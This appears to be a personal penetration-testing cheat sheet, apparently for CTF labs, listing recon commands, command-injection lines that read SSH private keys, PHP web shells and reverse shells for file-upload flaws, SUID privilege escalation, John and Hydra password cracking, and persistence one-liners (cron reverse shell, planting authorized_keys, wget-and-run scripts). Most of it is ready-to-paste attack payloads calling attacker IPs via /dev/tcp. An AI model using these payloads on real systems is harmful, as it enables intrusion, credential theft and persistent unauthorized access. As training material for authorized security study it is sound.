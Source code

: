 # Most Important
Check hacktricks on any subject. It'll probably have something useful.
Always try default credentials.

# Reconnaissance
https://tio.run/#
sudo nmap -sC -sV -v -p- 10.10.10.10 --min-rate 10000

dirsearch -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u 10.10.10.10
dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.10

grep -r 'looking_for_this' /in/this/directory

# Command Injection
;cat /home/<user>/.ssh/id_rsa to get the SSH key
;cat /home/<user>/.ssh/id.rsa

#Getting Credentials





touch id.rsa 

ssh -i id.rsa user@10.10.10.10

# Getting Remote Command Execution



# File Upload Vulnerability

Open burpsuite, open an image file that only contains the backdoor, capture the request, and then add .php to the end of the file, so it tries uploading as test.jpg.php, test.gif.php

Can also just try uploading an image file that contains only the backdoor, and if a php exec() exists, that might hit it and give us a backdoor.

# PHP Payloads for File Upload Vulnerability

#Command Backdoor
<?php echo passthru($_GET['cmd']); ?>

Use like website.com/index.php?pg=/uploads/image.lol?cmd=ls

# Reverse Shell
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'"); ?>

PHP will only execute on a non-PHP file (ie .jpg) if the .jpg includes a PHP includes. We can try ```touch backdoor.jpg && echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'\"); ?>"```

# Privledge Escalation

sudo -l
chmod +s /bin/bash 
cp /bin/bash /home/user/elevated-shell; chmod +s /home/user/elevated-shell


below to find SUID binaries
find / -perm -4000 2>/dev/null 

# Password Cracking

# John The Ripper

To crack a password-protected zip file, first convert it into a hash that John can read
zip2john file-to-crack.zip > hashed.john
And then call John on it
john -w=/usr/share/wordlists/rockyou.txt hashed.john

To crack a SSH key
ssh2john encrypted-id.rsa > id.rsa.john
john -w=/usr/share/wordlists/rockyou.txt id.rsa.john

# Hydra
hydra -L users.txt -u -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh -s 2222 -V -t 64

#Abusing Certain Services Angle

# WordPress
wpscan -U username --url http://website.com/wordpress -P /usr/share/wordlists/rockyou.txt

If we can grab wordpress admin credentials, we can pretty easily get a shell.

# PostGresSQL
psql -h 10.10.10.10 -u <username> default credentials are postgres and postgres
#Other/Interesting Angles

# MySQL
mysql -h 10.10.70.250 -u root -p

# Abusing Weird Text
If there's a weird page with only text, try nc into it, like nc 10.10.10.10 7878

# Overriding Weird Port Numbers on Firefox
need to go to about:config, and add the port you want to acess, so it can be overridden

# FTP
ftp 10.10.10.10 


# NFS
sudo showmount -e 10.10.10.10
mkdir mnt
sudo mount -t nfs 10.10.10.10:/ ./mnt -o nolock

# Abusing LFI
Grab /etc/passwd to enumerate users.
Then we can try grabbing ssh keys, in /home/<user>/.ssh/id.rsa


# Getting Files to/from Server

Use a web server!
python -m http.server 8080

# Improving an improved shell

python3 -c "import pty;pty.spawn('/bin/bash');"

bash -i

# Useful One Liners, and General Persistence

wget 10.10.10.10:8080/kingme.sh && chmod u+x kingme.sh && mkdir /etc/testingdirectory &&  ./kingme.sh - u jtrigg 10.10.10.10 /etc/testingdirectory

echo "bash -i >& /dev/tcp/127.0.0.1/8080 0>&1" > /tmp/backdoor.sh

wget 10.10.10.10:8080/id.pub && cp id2.pub /root/.ssh/authorized_keys/ && rm id.pub

wget 10.10.10.10:8080/id.pub && cp id2.pub /home/<user>/.ssh/authorized_keys/ && id.pub

cp /bin/bash /tmp/magic && chmod +s /tmp/magic

Put the below into a file named backdoor.php, and put it in one of the websites, so you can access the page.
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'"); ?>

crontab -l > mycron && echo "* * * * * bash -i >& /dev/tcp/10.0.0.1/8080 0>&1" >> mycron && crontab mycron && rm mycron

# Neat Links
https://pentestbook.six2dez.com/enumeration/ports
https://www.revshells.com/